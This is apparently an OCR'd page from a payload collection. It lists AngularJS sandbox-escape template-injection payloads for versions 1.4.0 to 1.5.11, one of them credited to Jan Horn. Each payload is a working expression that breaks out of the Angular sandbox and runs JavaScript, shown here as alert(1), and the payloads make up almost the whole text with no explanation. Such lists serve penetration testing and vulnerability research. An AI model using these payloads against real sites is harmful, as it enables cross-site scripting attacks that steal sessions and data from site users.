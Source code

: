   
---
AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)

```javascript

{{

c=''.sub.call;b=''.sub.bind;a=''.sub.apply;

c.$apply=$apply;c.$eval=b;op=$root.$$phase;

$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;

C=c.$apply(c);$root.$$phase=op;$root.$digest=od;

B=C(b,c,b);$evalAsync("

astNode=pop();astNode.type='UnaryExpression';

astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';

astNode.argument={type:'Identifier',name:'foo'};

");

m1=B($$asyncQueue.pop().expression,null,$root);

m2=B(C,null,m1);[].push.apply=m2;a=''.sub;

$eval('a(b.c)');[].push.apply=a;

}}

```

  
---
AngularJS 1.5.0 - 1.5.8

```javascript

{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}

```

  
---
AngularJS 1.4.0 - 1.4.9  

```javascript

{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

```
